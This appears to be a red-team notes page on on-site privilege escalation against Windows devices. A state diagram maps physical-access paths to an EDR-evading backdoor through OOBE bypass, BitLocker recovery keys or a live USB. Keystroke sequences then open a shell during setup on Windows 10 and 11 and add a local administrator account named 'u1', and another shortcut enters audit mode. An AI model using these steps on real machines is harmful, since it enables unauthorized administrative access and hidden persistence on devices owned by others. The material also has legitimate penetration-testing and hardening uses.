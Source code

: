 # On-site privilege escalation

## Summary

<!---
[mermaid.live](https://mermaid.live/edit#pako:eNqNk02P2jAQhv-KZWkvXYLyBRt86IGFnmhZgdpDyR5MPIBLYiPHyUIR_32NDUq2H1JyyXjmmdczycwZZ5IBJrjUVMOE062ihVeHqUDmYVxBprkUaLZIhfM9PKAXaiDQoErnGnM9k9ke1LPR-sHpWMm3EhRpAsjoyBrUCe3hhGpOUQn5xjNQzTNwKgtYS6m_Uc1rILcT4gK9cbGYOmQmKZuXBM0Mgr4vxyamd2hHsz0XW6SlzMs7mNF8bPxMymsdN8vystJoOlkgZjqwzbmUuVhyDS-K19MyI-boleaMDsbBc9gCgtJo0lbCfDw1XKU9ufHW8ojgeADFQVwbcoj9qB-V0dmF_v68d29jrT69Is_7fLtpxUXJGajXBrgGLPFHv6vljm_045fA7wKvcy4YymRRUPPm4pcrqkvqs1b54-2yqGuCZxO8SYv3vMb-zzRZufaMdMtwI9OwbYV_Vuj6b9XmFLqx7T4-wDbd_E8XvlwHBPdwAaqgnJn1s1ORYr2DAlJMjMlgQ6tcpzgVF4PSSsvlSWSYaFVBD1cH1iwsJhual8Z7oOKnlMUdAsa1VF_dhttFtwgmZ3zEJAgH_XDoh4PEj55GURT38AmTwVN_6PtxMgiTOPJHYRxfevi3FfX7SRhGwWiYDOMgTIIgurwDMe9SxQ)
-->

```mermaid
stateDiagram-v2
    direction LR

    %% Parameters
    BitLockerCodeViaBrowser: BitLocker recovery key via self-service
    RebootNative: Reboot in winRE
    LoadOs: Live USB with hacking tools
    LocalBackdoor: Backdoor without EDR detection
    OnSitePrivEsc: On-site privilege escalation
    OOBE: Out-of-box experience

    state OnSitePrivEsc {
        direction LR
        
        [*] --> OOBE: [insider]
        OOBE --> LocalBackdoor: [Shift+F10]
        OOBE --> LocalBackdoor: [blind command injection]
        OOBE --> LocalBackdoor: [Ctrl+Shift+F3]
        OOBE --> LocalBackdoor: [Ctrl-Shift-D]
        --
        BitLockerCodeViaBrowser --> RebootNative
        BitLockerCodeViaBrowser --> LoadOs
        RebootNative --> LocalBackdoor: [inject]
        LoadOs --> LocalBackdoor: [inject]
        --
        LocalBackdoor --> [*]
    }


```

## Option 1 - [Collect logs](https://learn.microsoft.com/en-us/troubleshoot/mem/intune/device-enrollment/understand-troubleshoot-esp#collect-logs)
```
SHIFT+F10
```

## Option 2 - Blind command injection

### Bypass OOBE in Windows 10:
```
CTRL+SHIFT+ESC -> ALT/WIN+TAB -> WIN+R -> cmd.exe -> SHIFT+ENTER
net user u1 u1 /add
net localgroup Administrators u1 /add
```

### Bypass OOBE in Windows 11:
```
CTRL+SHIFT+ESC -> ALT+N -> net user u1 u1 /add -> TAB -> SPACE -> ENTER
CTRL+SHIFT+ESC -> ALT+N -> net localgroup Administrators u1 /add -> TAB -> SPACE -> ENTER
```

### Option 3 - [Enter Audit mode on an image that's configured to boot to OOBE](https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/boot-windows-to-audit-mode-or-oobe?view=windows-11#enter-audit-mode-on-an-image-thats-configured-to-boot-to-oobe)
```sh
CTRL+SHIFT+F3
```
